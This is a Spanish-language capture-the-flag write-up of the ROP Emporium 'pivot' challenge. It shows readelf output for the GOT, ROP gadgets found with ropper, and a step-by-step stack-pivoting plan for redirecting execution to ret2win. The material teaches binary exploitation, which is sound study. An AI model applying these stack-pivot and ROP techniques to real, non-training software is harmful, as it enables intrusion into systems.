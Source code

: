 Por tanto el **offset** entre *ret2win* y *foothold_function* será `0x117`.

```bash
readelf -a libpivot.so
[...]
Relocation section '.rela.plt' at offset 0x5c8 contains 9 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000601018  000100000007 R_X86_64_JUMP_SLO 0000000000000000 free@GLIBC_2.2.5 + 0
000000601020  000200000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5 + 0
000000601028  000300000007 R_X86_64_JUMP_SLO 0000000000000000 printf@GLIBC_2.2.5 + 0
000000601030  000400000007 R_X86_64_JUMP_SLO 0000000000000000 memset@GLIBC_2.2.5 + 0
000000601038  000500000007 R_X86_64_JUMP_SLO 0000000000000000 read@GLIBC_2.2.5 + 0
000000601040  000800000007 R_X86_64_JUMP_SLO 0000000000000000 foothold_function + 0
000000601048  000900000007 R_X86_64_JUMP_SLO 0000000000000000 malloc@GLIBC_2.2.5 + 0
000000601050  000a00000007 R_X86_64_JUMP_SLO 0000000000000000 setvbuf@GLIBC_2.2.5 + 0
000000601058  000b00000007 R_X86_64_JUMP_SLO 0000000000000000 exit@GLIBC_2.2.5 + 0
[...]
```

En el caso del binario, la entrada de la [[GOT]] de *foothold_function* es `000000601040`.

# Explotación

Para este reto utilizaremos una técnica llamada [[Stack pivoting]]. Ya que disponemos de los gadgets necesarios para ello:

```bash
ropper -f pivot --stack-pivot
[...]
Gadgets
=======
0x00000000004009be: xchg esp, eax; ret;
0x00000000004009bd: xchg rsp, rax; ret;
```

```
0x00000000004009bb: pop rax; ret;
```

## Resumen

Tenemos que llamar a *ret2win*:

1. Primero llamaremos a *foothold_function* para actualizar su entrada de la *.got.plt*.
2. Cargamos la dirección de *foothold_function*, primero desde la *.got* y luego resolvemos esa dirección para tener la efectiva.
3. Añadimos el offset entre *ret2win* y *foothold_function* a la dirección que hemos cargado.
4. Llamamos a dicha dirección.

## Buscando los gadgets necesarios

Utilizando [[ropper]] encontramos los gadgets que utilizaremos:

```
0x00000000004006b0: call rax;
0x00000000004009c4: add rax, rbp; ret;
0x00000000004007c8: pop rbp; ret;
0x00000000004009c0: mov rax, qword ptr [rax]; ret;
```
